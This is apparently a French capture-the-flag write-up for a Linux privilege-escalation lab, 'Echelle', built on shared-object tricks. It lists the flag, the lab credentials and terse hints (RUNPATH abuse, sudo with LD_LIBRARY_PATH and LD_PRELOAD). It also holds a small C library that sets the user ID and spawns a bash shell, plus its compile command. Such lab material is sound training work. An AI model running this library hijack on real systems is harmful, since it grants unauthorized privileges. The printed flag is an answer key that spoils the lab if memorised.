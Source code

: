 # Echelle

| Système      |
|--------------|
| Difficile 😠 |
| Validé ✅     |
## Description

Bienvenue à cette introduction à l'escalade de privilèges sur système Linux !

Vous démarrez avec un compte symbolisé par une marche, et devez grimper les marches une par une jusqu'à arriver à la dernière disponible.

Chaque objet d'escalade possède un thème, qui vous sera utile à comprendre afin de grimper les marches !

------

L'échelle comporte cinq marches : de **marche6** à **marche10**

La dernière marche possède un flag dans ~/flag.txt

Le thème de l'échelle est : **Shared Object**

|          |           |
|----------|-----------|
| User     | marche6   |
| Password | `marche6` |

-----

- Auteur : NozZy

## Flag
||`CYBN{Sh@r3d_0bj3Ct_i5_FuN_t0_3Xpl0I7}`||

## Pistes
Shared Object
ldd, readelf

RUNPATH exploit => create so in directory /home/marche6/mylib

sudo env exploit => sudo -u marche8 LD_LIBRARY_PATH=/tmp /home/marche7/prog

ldconfig /etc/ld.so.conf.d/marche8

sudo -u marche10 LD_PRELOAD=/tmp/ibmyrandom.so


```c
#include <stdio.h>
#include <stdlib.h>

void get_random() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
```

```bash
gcc -fPIC -shared <random.c> -o libmyrandom.so
```